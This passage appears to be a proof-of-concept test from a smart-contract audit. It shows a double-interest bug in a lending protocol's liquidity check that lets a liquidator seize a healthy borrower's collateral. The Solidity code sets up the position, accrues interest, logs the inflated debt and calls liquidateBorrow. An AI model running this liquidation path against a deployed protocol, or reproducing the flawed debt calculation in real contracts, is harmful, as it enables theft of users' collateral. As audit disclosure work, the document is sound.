 ```solidity
        vm.startPrank(borrower);
        ERC20Mock(tokens[0]).mint(borrower, collateralAmount);
        IERC20(tokens[0]).approve(address(core), collateralAmount);
        core.supply(collateralAmount, tokens[0]);
        core.borrow(borrowAmount, tokens[1]);
        vm.stopPrank();

        // Accrue significant interest
        console2.log("Accruing interest over time...");
        vm.roll(block.number + 800000);
        vm.warp(block.timestamp + 500 days);

        address borrowedLToken = lendStorage.underlyingTolToken(tokens[1]);
        LTokenInterface(borrowedLToken).accrueInterest();

        // Get debt calculations
        LendStorage.BorrowMarketState memory borrowState = lendStorage.getBorrowBalance(borrower, borrowedLToken);
        uint256 currentBorrowIndex = LTokenInterface(borrowedLToken).borrowIndex();
        uint256 realDebt = (borrowState.amount * currentBorrowIndex) / borrowState.borrowIndex;

        console2.log("After interest accrual:");
        console2.log("- Principal: $", borrowState.amount / 1e18);
        console2.log("- Real debt: $", realDebt / 1e18);
        console2.log("- Interest accrued: $", (realDebt - borrowState.amount) / 1e18);
        console2.log("");

        uint256 collateralFactor = lendtroller.getCollateralFactorMantissa(lTokens[0]);
        uint256 borrowingPower = (collateralAmount * collateralFactor) / 1e18;

        console2.log("Position health:");
        console2.log("- Borrowing power: $", borrowingPower / 1e18);
        console2.log("- Real debt: $", realDebt / 1e18);
        console2.log("- Position healthy: ", realDebt <= borrowingPower);
        console2.log("");

        // Show the double interest bug
        (uint256 borrowed,) =
            lendStorage.getHypotheticalAccountLiquidityCollateral(borrower, LToken(payable(borrowedLToken)), 0, 0);
        uint256 buggyDebt = (borrowed * currentBorrowIndex) / borrowState.borrowIndex;

        console2.log("DOUBLE INTEREST BUG:");
        console2.log("- Step 1 result: $", borrowed / 1e18);
        console2.log("- Step 2 result: $", buggyDebt / 1e18);
        console2.log("- Real debt: $", realDebt / 1e18);
        console2.log("- Bug difference: $", (buggyDebt - realDebt) / 1e18);
        console2.log("");

        if (realDebt <= borrowingPower && buggyDebt > borrowingPower) {
            console2.log("CRITICAL BUG CONFIRMED:");
            console2.log("- Position SHOULD be healthy");
            console2.log("- Bug makes it appear underwater");
            console2.log("- Unfair liquidation possible");
            console2.log("");

            // Prove unfair liquidation succeeds
            vm.startPrank(liquidator);
            uint256 liquidationAmount = 100e18;

            console2.log("Attempting liquidation...");
            core.liquidateBorrow(borrower, liquidationAmount, lTokens[0], tokens[1]);
            console2.log("LIQUIDATION SUCCEEDED - HEALTHY POSITION LIQUIDATED!");
```